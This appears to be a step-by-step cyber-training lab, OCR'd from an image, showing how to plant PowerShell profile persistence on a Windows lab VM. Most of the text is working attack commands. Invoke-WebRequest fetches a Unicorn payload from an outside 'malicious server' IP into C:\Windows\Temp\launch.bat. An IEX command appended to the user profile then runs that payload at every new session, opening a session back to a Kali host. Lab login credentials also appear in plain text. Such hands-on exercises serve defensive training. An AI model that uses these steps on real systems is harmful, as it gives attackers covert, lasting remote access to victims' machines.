 
Workflow


1. Log in to the VM eng-wkstn-1 with the following credentials:
Username: trainee
Password: CyberTraining1!



2. Open a PowerShell terminal.


3. Determine whether the current user has an active PowerShell profile and its path by entering the following command:
PS C:\Users\trainee> echo $profile



NOTE: The file from step 3 may not be visible in the file explorer. The folder WindowsPowerShell in a user’s documents is hidden by default.


4. Test whether this profile exists by entering the following command:
PS C:\Users\trainee> Test-Path $profile



The profile does not exist, so the document will need to be created.


5. Create a profile for the current user with the following command:
PS C:\Users\trainee> New-Item -Path $profile -Type file -Force



6. Create a file for the Unicorn payload by entering the following:
PS C:\Users\trainee> New-Item -Path "C:\Windows\Temp\launch.bat" -Type file -Force



7. Retrieve the payload from the malicious server by entering the following command:
PS C:\Users\trainee> (Invoke-webrequest -URI "http://199.63.64.51:8000/powershell_attack.txt").Content | Out-File -FilePath "C:\Windows\Temp\launch.bat"



An attacker completes this file transfer activity during an active session, before leaving the machine. This ensures the attacker has continued access.


8. Prepare the persistence command to add to the profile by entering the following:
PS C:\Users\trainee> $string = 'Start-Process -FilePath "powershell" -ArgumentList "-noprofile -command `"IEX(GC C:\Windows\Temp\launch.bat -Raw)`""'



9. Add the command to the profile with the following command:
PS C:\Users\trainee> $string | Out-File -FilePath $profile -Append



10. Type exit to close the current PowerShell session and open a new session to trigger the persistence.


11. Return to the VM kali-hunt to view the new session that is created.
